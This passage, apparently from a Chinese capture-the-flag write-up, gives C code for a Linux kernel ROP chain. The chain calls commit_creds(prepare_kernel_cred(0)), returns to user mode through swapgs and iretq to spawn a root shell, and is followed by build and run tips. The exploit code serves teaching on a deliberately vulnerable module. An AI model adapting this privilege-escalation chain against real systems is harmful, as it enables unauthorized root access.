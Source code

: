 ```c
	size_t ROP[100] = {0};
	memset(ROP, 0, 800);
	int idx = 0;
	for(int i=0; i<10; i++)
		ROP[idx++] = canary;
	ROP[idx++] = poprdi_ret + base_offset;
	ROP[idx++] = 0;			// rdi -> 0
	ROP[idx++] = prepare_kernel_cred;
	ROP[idx++] = poprdx_ret + base_offset;
	ROP[idx++] = poprcx_ret + base_offset;
	ROP[idx++] = movrdirax_callrdx + base_offset;
	ROP[idx++] = commit_creds;
	ROP[idx++] = swapgs_popfq_ret + base_offset;	// step 1 of returning to user mode: swapgs
	ROP[idx++] = 0;
	ROP[idx++] = iretq + base_offset;				// step 2 of returning to user mode: iretq
	// after the iretq: return address, user cs, user rflags, user sp, user ss
	ROP[idx++] = (unsigned long long)shell;
	ROP[idx++] = user_cs;
	ROP[idx++] = user_rflags;
	ROP[idx++] = user_sp;
	ROP[idx++] = user_ss;
	
	printf("\033[34m\033[1m[*] Our rop chain looks like: \033[0m\n");
	print_binary((char*)ROP, 0x100);
	
	write(fd, ROP, 0x800);
	core_copy_func(0xffffffffffff1000);
	return 0;
}
```

编译时注意加上静态编译``--static``和``-masm=intel``选项。打包后运行start.sh，如果出现内核恐慌，则将分配的内存增加一倍再进行尝试。
